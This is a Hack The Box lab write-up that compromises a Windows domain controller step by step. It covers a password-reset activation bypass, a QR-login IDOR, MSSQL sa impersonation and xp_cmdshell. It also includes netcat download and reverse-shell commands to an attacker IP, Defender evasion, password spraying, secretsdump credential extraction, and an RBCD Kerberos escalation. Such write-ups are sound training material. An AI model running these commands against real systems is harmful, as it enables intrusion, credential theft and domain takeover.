This box is rated hard difficulty on HTB. It involves us registering an account on a website where we can reset our password in order to bypass an activation period. From there we discover an IDOR vulnerability in a QR-Code generator that allows us to login as the site's administrator without credentials. With access to the Admin dashboard, we're able to execute SQL queries and impersonate the system administrator in order to get a reverse shell on the box via `xp_cmdshell`. Once on the machine, we find a hardcoded password which can be sprayed against the domain to pivot users. Then we inspect a memory dump from another computer to gather credentials used in another password spray, giving us access to someone with _GenericWrite_ over high-privileged accounts. This permission can be abused to perform a Resource-Based Constrained Delegation attack and escalate to Domain Administrator.

## Host Scanning
I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP yields the typical AD ports.

```
└─$ sudo nmap -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389 -sCV 10.129.1.10 -oN fullscan-tcp

Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-20 15:35 -0400
Nmap scan report for 10.129.1.10
Host is up (0.059s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          nginx 1.25.5
|_http-title: Did not follow redirect to http://freelancer.htb/
|_http-server-header: nginx/1.25.5
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-05-21 00:35:15Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: freelancer.htb, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: freelancer.htb, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp open  mc-nmf        .NET Message Framing
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-05-21T00:35:23
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: 4h59m48s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.34 seconds
```

Looks like a Windows machine with Active Directory components installed on it, more specifically a Domain Controller. Both LDAP and the Nginx server show the domain name of `freelancer.htb` which I'll add to my `/etc/hosts` file. Since there is a web server present, I fire up Ffuf to search for subdirectories and subdomains in the background before enumerating other services.

## Service Enumeration
Testing out RPC and SMB for Guest/Null authentication both fail, and it seems like LDAP doesn't allow for anonymous binds either.

```
└─$ nxc smb freelancer.htb -u 'Guest' -p ''

└─$ rpcclient -U ''%'' freelancer.htb

└─$ ldapsearch -x -H ldap://freelancer.htb -b "dc=FREELANCER,dc=HTB" -s base "(objectClass=user)"
```



## Website Enumeration

### Failed Attack Vectors
Checking out the landing page shows a site that helps people find new jobs by posting or browsing available positions.



The site has tons on functionality, so I'll start with the registration links. The freelancer one has tons of questions to input various details about ourselves, which fails to sanitize special characters like HTML tags, etc. If we view our profile, it won't render the code but looks to be untouched by the site.



Looking at the employer registration page, there is a note saying that a team member will first review the account details before activating it.



Testing this registration page, the contact form, and the blog post's comment section for Cross-Site Scripting all seem to fail since I don't get a hit back on my web server.



Looking at the job listings, we fetch each one by providing a numeric value to the `job_id` parameter.



Supplying special characters such as single or double quotes triggers a WAF and snipes down our request. This is the same for other requests with parameters in play.



### Account Recovery Logic
Clicking on the Forgot Password link on the login page brings us to the account recovery form which is very interesting. Instead of sending an email to the associated account to reset the password, we enter our username and a few security questions. If correct, we proceed to a reset page without any hassle.



This could prove to be a major flaw if someone were to find out these values through something like OSINT or phishing attempts. Moving on, I don't see anything that pops out as immediately vulnerable, so I start looking for business logic flaw or other ways to gather information on users registered to the site.

We're allowed to reset our own password, provided we supply the old one, under the profile tab by clicking Proceed Now. The main thing to note here is how the site tracks which account to reset, which is through a base64 encoded string passed into the URL as a directory.



Decoding this looks to resolve to a user ID number.

```
└─$ echo -n 'MTAwMTE=' | base64 -d
10011
```

Whilst looking around earlier, I found that if we clicked on user's names under the blog post's comment section, it's possible to view their profiles. The site uses a path that looks like `/accounts/profile/visit/<USER_ID>`. Visiting the decoded user ID from the password reset obviously matches one for my own account.



Using the profile visit function, we can begin enumerating usernames on the site. Aiming for a high-profile account like the site administrator gives us the user ID as well.



Unfortunately, we can't encode other account IDs to reset passwords arbitrarily as it just returns a 500 Internal Server error for other values. This could be due to how the site checks our session cookies.



Circling back to the account recovery section, I figured that if the site doesn't do any checks on activated accounts, we could still reset our password for a registered employer account since we know the security questions.

## Exploitation

### Bypassing Account Activation
I create a new employer account and attempt to login, which errors out due to it being deactivated.



Now I reset the password for this new account by providing the security questions and then attempt to login after the fact. This redirects us to the dashboard and we're greeted with new functions. The reason we can bypass the activation period is because the reset password feature does not check if the account is active before accepting the changes, and I'm guessing that it also changes that status upon reset while assuming we're fine.



### IDOR in QR-Code Generation
At this point, I test for XSS and Second-Order SQLi through the creation of a new job listing, but everything is secure. The only other thing worthy of noting is a QR-Code feature that will allow us to login to our account without using other credentials. This already seems like a bad design idea, so I'll test it for authentication bypass or anything similar in an attempt to gain unauthorized access to other accounts.



I download the image and use a tool called [zbarimg](https://linux.die.net/man/1/zbarimg) to resolve the URL.

```
└─$ zbarimg qr-code.png
QR-Code:http://freelancer.htb/accounts/login/otp/MTAwMTc=/2dc90a202c00af43ae60a6af4c6ab842/
scanned 1 barcode symbols from 1 images in 0.01 seconds
```

We can see that it uses that same base64 encoded user ID along with what looks to be a randomized string. Supplying this URL in another tab without prior cookies succeeds to automatically log me into my account.

Retrying in a few minutes returns an error saying that our OTP token is invalid or expired.



By changing this Base64 encoded user ID to match the admin's account, similar to earlier, we sign in as them and have full reign on the site.

```
└─$ echo -n 2 | base64 -w0
Mg==
```



## RCE via MSSQL Queries
The dashboard and other pages don't have anything new for us, but navigating to `/admin` reveals an administration panel for the site that opens up a few doors for us.



### Enumerating Site Database
Most notably is a SQL terminal which allows us to execute arbitrary queries to the database. 

```
SELECT name FROM sys.databases;
```



Grabbing the table names from the only non-standard one gives us a few to work with.

```
SELECT TABLE_SCHEMA, TABLE_NAME
FROM Freelancer_webapp_DB.INFORMATION_SCHEMA.TABLES
WHERE TABLE_TYPE = 'BASE TABLE';
```



The only interesting one was freelancer_customuser, which held `Django (PBKDF2-SHA256)` password hashes for each user registered on the site. Sending these over to Hashcat or JohnTheRipper doesn't crack in a reasonable time, so I move on.

```
SELECT * FROM dbo.freelancer_customuser;
```



Seeing as this is a MSSQL server, we can utilize certain extended features such as `xp_dirtree` and `xp_cmdshell`. 

In Microsoft SQL Server, `xp_dirtree` can be abused to force the SQL Server to authenticate to an attacker-controlled SMB share, allowing us to capture the server account's NTLMv2 hash through a UNC path like `\\ATTACKER-IP\share`. If the SQL Server service account has high privileges, we may be able to crack or relay the hash for further access. `xp_cmdshell` is even more dangerous because it allows us to execute operating system commands directly from SQL queries, effectively giving remote command execution on the host. With unrestricted SQL query access, these procedures can turn a database compromise into full system compromise.

Starting with the former, we setup a Responder server on our VPN interface and supply our IP in a `xp_dirtree` request.

```
#Responder command
└─$ sudo responder -I tun0

#Query
EXEC xp_dirtree '//10.10.14.48/share';
```



Capturing this hash works but doesn't crack, even with a mutated wordlist using Hashcat's best66 rule. The second option is to execute commands on behalf of the _sql_svc_ user, provided we have enough permissions to enable the feature.

```
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```



### Impersonate Permissions
This fails so I go back to enumerating the databases. Checking `sys.server_permissions` will let us get a good idea of what we're allowed to do/execute here. One that pops out at me is the impersonate permission which is granted to us.

```
select * from sys.server_permissions where permission_name = 'IMPERSONATE';
```



As I was unfamiliar with this option, I did a bit of research and came across this [Hacktricks article](http://hacktricks.wiki/en/network-services-pentesting/pentesting-mssql-microsoft-sql-server/index.html#impersonation-of-other-users) that explains we can effectively select a new user to act as.

A good one would be sa (System Administrator) as they have unrestricted access to the server.

```
EXEC AS LOGIN = 'sa';
SELECT SYSTEM_USER;
```



### Initial Foothold
Using this, we can configure the server to have `xp_cmdshell` enabled and allow us to execute commands. Note that nothing is displayed since we didn't provide a query to be reflected.

```
EXEC AS LOGIN = 'sa'; 
EXEC sp_configure 'show advanced options', 1; 
RECONFIGURE; 
EXEC sp_configure 'xp_cmdshell', 1; 
RECONFIGURE;
```



A simple test with `whoami` confirms this and we can move to grabbing a reverse shell on the system.



Attempting to use something like a base64-encoded PowerShell one liner will get blocked by Windows Defender, so we need to be a bit more discreet. 

First, we can upload a [Netcat binary](https://github.com/int0x33/nc.exe/) to a safe directory which shouldn't get caught be the AV.

```
EXEC AS LOGIN = 'sa'; 
EXEC xp_cmdshell 'powershell -c "curl 10.10.14.48/nc64.exe -o C:\programdata\nc.exe"';
```



Then we'll use that binary to force a connection back to our local machine in order to get a shell as _sql_svc_.

```
EXEC AS LOGIN = 'sa'; 
EXEC xp_cmdshell 'C:\temp\nc64.exe -e cmd 10.10.14.48 443';
```



At this point we can enumerate internally and focus on escalating privileges towards Administrator.

## Privilege Escalation

### Creds in Config File
Listing our group and token permissions doesn't show anything too interesting, but there are quite a few users on this machine. The most intriguing of which is a _SQLBackupOperator_ who may have special privileges over the filesystem. 



I end up searching the Users and Nginx directories for `.ini` and `.txt` files in hopes to find hardcoded credentials.

```
PS> Get-ChildItem -Path C:\ -Recurse -Include *.ini,*.txt -ErrorAction SilentlyContinue
```



I end up finding a SQL configuration file in our home directory that holds credentials for the _sql_svc_ user and a temporary password for the sysadmin account.

```
PS> type C:\Users\sql_svc\Downloads\SQLEXPR-2019_x64_ENU\sql-Configuration.INI
```



Spraying this password against the domain grants us access to a user account.

```
└─$ nxc smb freelancer.htb -u users.txt -p '[REDACTED]' --continue-on-success
```



They aren't in the Remote Management group so we can't get a direct shell via WinRM, however it's possible to spawn a new terminal process on behalf of them and redirect the I/O to a local listener using [RunasCs](https://github.com/antonioCoco/RunasCs).

```
PS> curl http://10.10.14.48/RunasCs.exe -o RunasCs.exe

PS> .\RunasCs.exe mikasaAckerman IL0v3ErenY3ager powershell -r 10.10.14.48:444
```

From here, we can grab the user flag under her Desktop folder and check out the other files she has access to.



### Memory Dump Forensics
The `mail.txt` file has a note which discloses an issue with the **DATACENTER-2019** computer overheating. It also states that we were given a full memory dump from the affected computer and should assist in troubleshooting the problem.

```
Hello Mikasa,
I tried once again to work with Liza Kazanoff after seeking her help to troubleshoot the BSOD issue on the "DATACENTER-2019" computer. As you know, the problem started occurring after we installed the new update of SQL Server 2019.
I attempted the solutions you provided in your last email, but unfortunately, there was no improvement. Whenever we try to establish a remote SQL connection to the installed instance, the server's CPU starts overheating, and the RAM usage keeps increasing until the BSOD appears, forcing the server to restart.
Nevertheless, Liza has requested me to generate a full memory dump on the Datacenter and send it to you for further assistance in troubleshooting the issue.
Best regards,
```

I'll transfer this to my local machine for further inspection and access to memory forensic tools, using an SMB share for the process due to its sheer size.

```
#On Local machine
└─$ impacket-smbserver share . -username cbev -password password -smb2support

#On Remote machine
PS> net use \\10.10.14.48\Share /u:cbev password

PS> copy MEMORY.7z \\10.10.14.48\Share\
```

My go to when dealing with Windows Memory dumps is [MemProcFS](https://github.com/ufrisk/MemProcFS) since it will mount the dump as a virtual filesystem, making the process of parsing it way easier. We'll have to keep one terminal open to hold the mount together and then swap to a second in order to inspect the memory.

```
└─$ tar -xvzf MemProcFS_files_and_binaries_v5.17.7-linux_x64-20260514.tar.gz

└─$ unzip ~/Freelancer/MEMORY.DMP

└─$ sudo ./memprocfs -device MEMORY.DMP -mount /mnt
```

### Dumping Registry Hives
Inside of the `/Registry` folder we can find a few file representations of the DC's Windows Registry Hives.



In case you're unfamiliar with Windows Internals - `HKLM` (HKEY_LOCAL_MACHINE) stores system-wide configuration data such as installed software, services, security settings, and machine account information, while `HKU` (HKEY_USERS) contains registry data for every user profile loaded on the system. 

If we obtain memory dumps or saved hive files of these registries, we can parse them offline to extract sensitive information such as cached credentials, LSA secrets, DPAPI keys, and password hashes. In a domain environment, these secrets may allow us to recover service account credentials, machine account hashes, or Kerberos-related material that can be leveraged for lateral movement and further access. Tools like Impacket's [secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py) can process the hive representations to reconstruct and decrypt stored secrets without needing to interact with the live host directly.

Inside of the `/hive_files` directory, we can find several files that will represent what could be gathered from each each of the hive files. This includes the **SYSTEM**, **SECURITY**, and **SAM** registry hives which are needed to perform a secrets dump attack.



Since we have the files, let's specify to do so locally and see what can be gathered.

```
└─$ impacket-secretsdump -sam 0xffffd3067d935000-SAM-MACHINE_SAM.reghive -system 0xffffd30679c46000-SYSTEM-MACHINE_SYSTEM.reghive -security 0xffffd3067d7f0000-SECURITY-MACHINE_SECURITY.reghive LOCAL
```



Unfortunately, none of the NTLM hashes are valid to authenticate on the DC, but we do find a password belonging to an unknown user towards the bottom of the output. Another password spray grants us access to another user who is in the Remote Management group, letting us grab a shell via WinRM.

```
└─$ nxc smb freelancer.htb -u users.txt -p '[REDACTED]' --continue-on-success

└─$ nxc winrm freelancer.htb -u lorra199 -p '[REDACTED]'
```



### AD Recycle Bin
Listing this user's group and token permissions shows that we are in a custom domain group for the AD Recycle Bin. This is always a good place to check anyways, but our presence in it may just give us special permissions to recover crucial information or accounts.



The Active Directory Recycle Bin allows deleted Active Directory objects to be restored without needing authoritative restores from backups, preserving many of their original attributes. If we have sufficient directory access, we can enumerate recycled objects to recover deleted users, groups, or service accounts that may still contain useful metadata such as group memberships, SPNs, or descriptions. In some cases, attackers abuse the feature to identify previously deleted privileged accounts or restore objects that can help regain access within the domain.

```
PS> Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```



### Mapping Domain with BloodHound

This just returns the Deleted Objects container, which isn't very helpful. Further enumeration on the filesystem disclosed nothing, so I resorted to upload SharpHound to collect domain information and used BloodHound to map any interesting permissions we may have.

```
#On remote machine
PS> upload SharpHound.exe 

PS> .\SharpHound.exe 

PS> download 20260521010158_BloodHound.zip

#On local machine
└─$ sudo bloodhound
```

Looking to see what outbound object control we have, we discover that member of the AD Recycle Bin group have _GenericWrite_ over pretty much everything on the domain. This includes the DC computer account, allowing us to perform a Resource-Based Constrained Delegation attack in order to gain Administrative access.



### Resource-Based Constrained Delegation
In case you're unfamiliar with this attack vector - Resource-Based Constrained Delegation (RBCD) is a Kerberos delegation feature where the target system itself decides which accounts are allowed to impersonate users to it, unlike traditional constrained delegation where permissions are configured on the delegating account. 

If we can modify the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on a computer object (which is possible with our _GenericWrite_ permissions), we can allow a machine account we control to request service tickets on behalf of other users to that target system. In practice, this lets us impersonate privileged users to services like CIFS or HOST and often results in remote code execution on the target host. 

To start, we want to add a computer account with Impacket's [addcomputer.py](https://github.com/fortra/impacket/blob/master/examples/addcomputer.py) script, which will act as the object that our target will delegate to. I was getting errors with SSL, but swapping to SAMR instead of LAPS works just fine.

We'll also need to configure this account to delegate to the `DC$` computer account, which can be done with Impacket's [rbcd.py](https://github.com/fortra/impacket/blob/master/examples/rbcd.py) script.

```
└─$ impacket-addcomputer -method SAMR -computer-name 'ATTACKER$' -computer-pass 'Password123!' -dc-host 10.129.1.10 -domain-netbios freelancer.htb 'freelancer.htb/lorra199:[REDACTED]'
```



Once the necessary permissions are setup, we can grab a service ticket for CIFS (file system) on the Domain Controller using Impacket's [getST.py](https://github.com/fortra/impacket/blob/master/examples/getST.py) script.

```
└─$ impacket-getST -impersonate "Administrator" -spn "cifs/dc.freelancer.htb" -no-pass 'freelancer.htb/ATTACKER$:Password123!'
```



That will save a ticket to our machine which can be used in a Pass-The-Ticket attack in order to gain access to the DC.

```
└─$ export KRB5CCNAME=Administrator@cifs_dc.freelancer.htb@FREELANCER.HTB.ccache

└─$ impacket-smbexec -k -no-pass administrator@dc.freelancer.htb
```



### Extracting Hashes from NTDS.dit
This will give us almost fully unrestricted access to the file system, but in order to complete this box we need to specifically have a shell as the Administrator. I reuse that ticket to dump all hashes on the domain and then use the Administrator's NTLM in a Pass-The-Hash attack in order to grab a shell via WinRM.

```
└─$ impacket-secretsdump -k -no-pass 'freelancer.htb/administrator@dc.freelancer.htb'

└─$ evil-winrm -i dc.freelancer.htb -u administrator -H '[REDACTED]'
```



Grabbing the root flag under their desktop folder will complete this challenge.



That's all y'all, I really enjoyed this box due to the mix of web and network sections. The website attack path was well done and I learned a bit about SQL impersonation from it. I hope this was helpful to anyone following along or stuck and happy hacking!
